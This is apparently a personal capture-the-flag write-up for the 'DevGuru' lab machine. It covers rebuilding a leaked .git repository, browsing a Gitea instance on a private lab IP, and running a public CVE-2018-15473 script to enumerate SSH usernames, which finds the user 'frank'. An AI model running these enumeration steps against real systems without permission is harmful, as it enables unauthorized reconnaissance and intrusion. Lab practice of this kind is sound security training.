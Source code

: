 ```
du -hc project | tail -n 1
```
we monitorize it every minute wit this
```
watch -n 1 'echo `du -hc project | tail -n 1`'
```
Please do this on the same folder that is executing the dumper 
![[Screenshot_2023-08-16_19_56_03.png]]



and with another tool (extractor) we give him the folder "project" and it rebuilds the project





while this is executing we are watching the port open, 8585 that have another http service running, is "gitea".. this is 

```
Gitea es un paquete de software de código abierto para alojar el control de versiones de desarrollo de software utilizando Git, así como otras funciones de colaboración como el seguimiento de errores y los wikis. [Wikipedia](https://es.wikipedia.org/wiki/Gitea)
```

http://192.168.100.77:8585/


we can look on this website things, we can look for users, and other functionalities , and it have a log in. Savitar says that it is possible enumerate users with a exploit because the ssh is minor than 7.7. BUt... i remember that i cant do it with my machine... i dont know why.. because of.. paramiko.

But I found another one  https://github.com/epi052/cve-2018-15473/tree/master ssh-username-enum.py and the reason that doesnt work is this.

![[Screenshot_2023-08-16_20_20_14.png]]
so now it works
```
python3 ssh-username-enum.py -u root 192.168.100.77 
```
We found a user called "frank" that was on the "gitea" website.

www-data is a valid username to
```
python3 ssh-username-enum.py -u frank 192.168.100.77
[+] OpenSSH version 7.6 found
[+] frank found!

```

So we found a user, lets return to the git project that we were reconstructing. We are in the folder "project" and this is what we have:
```
──(cds㉿kali)-[~/…/pentesting/devguru/content/project]
└─$ ls -la
total 12
drwxr-xr-x 3 cds cds 4096 Aug 16 19:48 .
drwxr-xr-x 4 cds cds 4096 Aug 16 19:48 ..
drwxr-xr-x 6 cds cds 4096 Aug 16 19:48 .git
                                                     
┌──(cds㉿kali)-[~/…/pentesting/devguru/content/project]
└─$ git log
commit 7de9115700c5656c670b34987c6fbffd39d90cf2 (HEAD -> master)
Author: frank <frank@devguru.local>
Date:   Thu Nov 19 18:42:03 2020 -0600

    first commit
```
